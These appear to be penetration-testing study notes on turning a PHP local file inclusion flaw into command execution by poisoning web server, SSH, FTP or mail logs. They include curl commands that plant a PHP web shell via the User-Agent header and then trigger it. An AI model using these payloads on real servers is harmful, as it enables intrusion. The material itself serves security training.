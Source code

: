 
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

The path taken in this not can also be applied to ssh,ftp,mail
	E.g
		Send malicious mail document with php and use LFI to execute on the saved mail file

Log File List
	/var/log/apache2/error.log
	/var/log/apache2/access.log
	/var/log/sshd.log
	/var/log/mail
	/var/log/vsftpd.log

Log File Paths(Might have different paths use this [LFI FUZZ](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI))
	Default
		Apache
			 `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows
		Nginx
			`/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows

Testing for log file include(Look for parameters we control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

(Control the User-Agent with burp suite or curl)
```shell
curl -s --user-agent "<?php system($_GET['cmd']); ?>" 'http://<SERVER_IP>:<PORT>/index.php'
```

Execute on user-agent web shell
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id"
```

**Tip:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.



